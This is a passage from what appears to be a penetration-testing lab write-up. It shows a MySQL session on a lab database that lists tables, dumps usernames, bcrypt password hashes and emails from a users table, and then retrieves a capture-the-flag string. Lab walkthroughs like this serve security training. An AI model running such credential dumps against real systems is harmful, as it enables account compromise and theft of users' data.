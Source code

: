 ```bash
| tbl_folders                |
| tbl_groups                 |
| tbl_members                |
| tbl_members_requests       |
| tbl_notifications          |
| tbl_options                |
| tbl_password_reset         |
| tbl_users                  |
+----------------------------+
30 rows in set (0.142 sec)

```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
**We find user credentials** on the `cmsbase.tbl_users` table:

```text
MySQL [cmsbase]> select user,password,name,email from tbl_users;
+---------+--------------------------------------------------------------+---------+-------------------+
| user    | password                                                     | name    | email             |
+---------+--------------------------------------------------------------+---------+-------------------+
| foocorp | $2a$08$f2fG8Ncpmj815xQ9U3Ylh.uD0VW/X6kOgjPIEHKP547jspS0FlHF6 | foocorp | admin@foocorp.io  |
| mickey  | $2a$08$w/oljwDbODAThUR4HTVO8eUjTabE80sH0i6xnOR97ZXfsGGmxohAW | mickey  | mickey@foocorp.io |
| donald  | $2a$08$dK04y0KEURxDv02vYRab1OMYMSWbW/bpGF.eAWrWv9JAGaa4yTxlq | donald  | donald@foocorp.io |
+---------+--------------------------------------------------------------+---------+-------------------+
```
{% endhint %}

{% hint style="success" %}
**Flag encountered!** 😁 

While inspecting database tables, we find our flag in the `cmsbase.flag` table.

```text
select * from flag;
+----+------------------------------+
| id | content                      |
+----+------------------------------+
|  1 | Congratulations, you got it! |
+----+------------------------------+
1 row in set (0.141 sec)
```
{% endhint %}

### ✔️172.16.64.91 \(Linux 3.13 - 95%\)
